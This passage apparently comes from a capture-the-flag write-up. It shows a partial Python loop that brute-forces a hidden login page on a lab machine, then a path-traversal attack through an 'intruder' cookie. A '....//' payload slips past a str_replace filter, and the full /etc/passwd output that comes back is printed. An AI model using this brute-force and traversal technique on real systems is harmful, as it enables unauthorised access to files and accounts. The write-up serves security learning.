 ```python
      i = 0

  sess = requests.session()
  r = sess.post("http://192.168.1.29/super_secret_login_path_muhahaha/check.php", data=data, headers=hdrs)
  if """<FORM name="login" method="post" action="login.php">""" in r.content:
      continue

  print "No login form with password {0}".format(word)
  print r.headers
  print r.content
  break

fd.close()
```

I tried to find a valid password for *admin* and *Jack* but unfortunately I didn't found anything :(  

So I looked deeper and deeper and I finally discovered that when the *failcount* counter exceed some value, the webserver gives us a new special cookie *intruder=1*.  

And guess what... If we access the *panel.php* page with this cookie set we can read a the end of the webpage the message *"INTRUDER ALERT!"* :)  

It's a safe bet that the script does a simple *include()* of what was given through the *intruder* cookie (remember the file named *1* discovered previously).  

Indeed when I changed the cookie value to *"server.php"* and asked for *panel.php* again I saw the content *server.php* at the end of the webpage.  

Nevertheless... */etc/passwd* doesn't gives any results and neither does *../../../../../../../etc/passwd*. That's strange because for exemple it works well with *./server.php*.  

So there must be some kind of filters to prevent moving up in the directories.  

What if I set the cookie to *intruder=../server.php* ? BANG ! Data from *server.php* gets appended although it's in the same directory !  

The script simply calls *str\_replace* to removes attemps to go in parents directory and when I set the intruder cookie value to *....//....//....//....//....//....//....//....//etc/passwd* I finally get :  

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
```